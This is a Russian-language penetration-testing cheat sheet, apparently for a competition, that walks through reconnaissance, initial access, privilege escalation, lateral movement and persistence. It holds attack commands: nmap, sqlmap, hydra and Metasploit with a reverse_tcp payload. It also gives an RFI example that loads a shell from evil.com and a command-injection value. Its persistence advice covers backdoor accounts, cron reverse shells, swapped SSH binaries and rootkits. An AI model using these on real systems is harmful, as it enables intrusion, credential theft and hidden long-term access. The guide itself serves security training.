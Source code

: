 # Этап 1: Разведка (Reconnaissance)

Цель: Сбор как можно больше информации об инфраструктуре до начала активных действий.
**Инструменты:**
nmap: сканирование сети, определение открытых портов, служб, операционной системы.
nmap -sS -sV -T4 -p- <IP_адрес> - сканирование SYN, определение версии служб, агрессивный режим, сканирование всех портов.
nmap -A -T4 <IP_адрес> - агрессивное сканирование с определением ОС, скриптами, traceroute.
nikto: сканирование веб-приложений на предмет уязвимостей (CMS, уязвимые скрипты и т.д.).
nikto -h <URL>
whatweb: определение технологий, используемых на веб-сайтах.
whatweb <URL>
gobuster или dirb: поиск скрытых директорий и файлов на веб-серверах.
gobuster dir -u <URL> -w <path_to_wordlist> -t 50 (параллельные потоки)
dnsrecon: сбор информации о DNS (записи, зоны и т.д.).
dnsrecon -d <домен>
**Важные моменты:**
Анализируй результаты сканирования. Какие порты открыты? Какие службы работают? Какие версии?
Ищи потенциальные точки входа (веб-приложения, SSH, FTP и т.д.).
Помни, что активная разведка может быть обнаружена, поэтому будь аккуратен и не используй слишком агрессивные опции, если не уверены в правилах.

# Этап 2: Получение доступа (Gaining Access)

Цель: Найти уязвимость и получить начальный доступ к системе.
**Инструменты и методы:**
**Уязвимости веб-приложений:**
SQL Injection (SQLi): Используй sqlmap для автоматической эксплуатации. Пробуй различные payloads для авторизации, чтения/записи файлов.
sqlmap -u "<URL с параметром>" --data="<POST данные, если есть>" --level 3 --risk 3 --dbms=<тип БД, если знаешь>
Cross-Site Scripting (XSS): Внедряй скрипты в уязвимые поля ввода. Пробуй различные типы XSS (Stored, Reflected, DOM).
File Inclusion (LFI/RFI): Пытайся включить локальные (LFI) или удаленные (RFI) файлы через параметры запросов.
LFI: http://example.com/index.php?page=/etc/passwd (попытка прочитать /etc/passwd)
RFI: http://example.com/index.php?page=http://evil.com/shell.txt (попытка подключить скрипт с удаленного сервера)
Command Injection: Попытки внедрить команды операционной системы через уязвимые параметры.
Пример: http://example.com/search.php?q=test; ls -la
**Уязвимости служб:**
Используй searchsploit (инструмент в Kali Linux) для поиска эксплойтов для обнаруженных служб.
searchsploit <название_службы> <версия>
Перебор паролей (Brute-force):
hydra (для различных служб, SSH, FTP, HTTP и т.д.)
hydra -l <username> -P <path_to_wordlist> ssh://<IP_адрес> (SSH)
hydra -L <path_to_usernames> -P <path_to_wordlist> ssh://<IP_адрес> (SSH)
john the ripper или hashcat (для взлома хешей паролей, полученных с помощью других атак)
**Уязвимости конфигурации:**
Поиск дефолтных паролей (для служб, баз данных).
Анализ конфигурационных файлов на наличие уязвимостей.
Эксплуатация уязвимостей:
Используй эксплойты из searchsploit или создавай свои собственные (если знаешь Python, Ruby и т.д.).
Metasploit: Если позволяет время и правила соревнования, попробуй использовать Metasploit для автоматизации эксплуатации.
msfconsole
search <название_уязвимости>
use <номер_эксплойта>
set RHOSTS <IP_адрес>
set LHOST <твой_IP_адрес> (если это необходимо)
set PAYLOAD <тип_полезной_нагрузки> (например, linux/x86/meterpreter/reverse_tcp)
exploit
**Важные моменты:**
Не забудь пробовать простые вещи: дефолтные логины/пароли, распространенные ошибки в конфигурации.
Внимательно читай документацию по эксплойтам.
Убедись, что эксплойт подходит для версии службы и операционной системы.
Помни о нестандартных портах.

# Этап 3: Повышение привилегий (Privilege Escalation)

Цель: Получить права администратора (root) на системе.
**Инструменты и методы:**
**Сбор информации о системе:**
uname -a: версия ядра.
lsb_release -a: информация о дистрибутиве Linux.
sudo -l: какие команды можно запускать с sudo.
find / -perm -u=s -type f 2>/dev/null: поиск SUID-бинарников (запускаются от имени владельца файла).
cat /etc/passwd: анализ пользователей.
cat /etc/shadow: (если есть права на чтение) анализ хешей паролей.
ps aux: запущенные процессы.
netstat -antp или ss -antp: открытые сетевые соединения.
**Уязвимости ядра (Kernel Exploits):**
searchsploit linux kernel <версия_ядра> - поиск эксплойтов для ядра.
Попробуй скомпилировать и запустить эксплойт (если у тебя есть права на это).
Используй готовые эксплойты из репозиториев, например, exploitdb.
**SUID/GUID бинарники:**
Ищи уязвимые бинарники, которые можно использовать для повышения привилегий (например, sudo, vim, find).
Пример: если sudo настроен неправильно, можно выполнить команду от имени root.
Посмотри уязвимости для конкретных бинарников с помощью searchsploit.
**Уязвимости в сервисах:**
Поиск уязвимостей в службах, которые запущены от имени root.
Попытка эксплуатации уязвимостей, связанных с конфигурацией сервисов.
**Неправильные настройки безопасности:**
Слабые пароли.
Разрешения на запись в важных файлах.
Неправильные настройки sudo.
Логи и скрипты, которые выполняются от имени root.
Metasploit: Попробуй модули для повышения привилегий (например, post/linux/gather/enum_system).
**Важные моменты:**
Помни, что повышение привилегий требует времени и анализа.
Используй информацию, собранную на предыдущих этапах.
Внимательно читай вывод команд, которые ты выполняешь.
Попытки повышения привилегий могут быть залогированы, поэтому будь осторожен.

# Этап 4: Перемещение по сети (Lateral Movement)

Цель: Получить доступ к другим системам в сети.
**Инструменты и методы:**
**Сбор информации о сети:**
ifconfig или ip addr: информация о сетевых интерфейсах.
route -n: таблица маршрутизации.
arp -a: ARP-таблица.
nmap <диапазон_IP_адресов>: сканирование сети.
**Получение учетных данных:**
Поиск паролей в файлах конфигурации (SSH, базы данных и т.д.).
Ключи SSH.
Кража хешей паролей (например, с помощью mimikatz для Windows, но это может быть применимо и к другим системам через другие инструменты).
Попытка взлома паролей.
**Использование полученных учетных данных:**
SSH: ssh <user>@<IP_адрес>
SMB (если SMB доступен): попытка подключения к шарам.
RDP (если Windows): попытка подключения.
**Эксплуатация уязвимостей на других системах:**
Повторение этапов 2 и 3 на других системах.
Pivot: Использование скомпрометированной системы в качестве точки входа для доступа к другим системам в сети, которые недоступны напрямую.
Использование Socks прокси.
Использование SSH туннелей.
**Важные моменты:**
Не забывай сканировать сеть для поиска новых целей.
Сохраняй все учетные данные, которые ты находишь.
Будь осторожен, передвигаясь по сети, чтобы не вызвать подозрений.
Продумай стратегию перемещения: какие системы наиболее важны?

# Этап 5: Закрепление (Persistence)

Цель: Обеспечить постоянный доступ к системе даже после перезагрузки.
**Методы:**
**Создание учетной записи пользователя:**
adduser <username>
usermod -aG sudo <username> (добавление в группу sudo для повышения привилегий)
**SSH ключи:**
Добавление своего публичного ключа в файл ~/.ssh/authorized_keys (если есть доступ к SSH).
**Backdoor:**
Создание бэкдора в скриптах запуска служб.
Модификация файлов инициализации (systemd, init.d).
Установка руткита (крайняя мера).
**Cron Jobs:**
Добавление команды в crontab для периодического выполнения (например, для обратного шелла).
Замена существующих служб:
Замена бинарных файлов служб (например, SSH) на свои модифицированные версии.
**Важные моменты:**
Выбор метода зависит от целей и правил соревнования.
Будь осторожен, чтобы не сломать систему.
Постарайся сделать так, чтобы твои действия были незаметны.

# Инструменты, которые тебе понадобятся (установлены в Kali Linux):

nmap
nikto
whatweb
gobuster
dirb
dnsrecon
sqlmap
hydra
john the ripper
hashcat
searchsploit
metasploit
netcat (nc)
socat (альтернатива netcat с дополнительными возможностями)
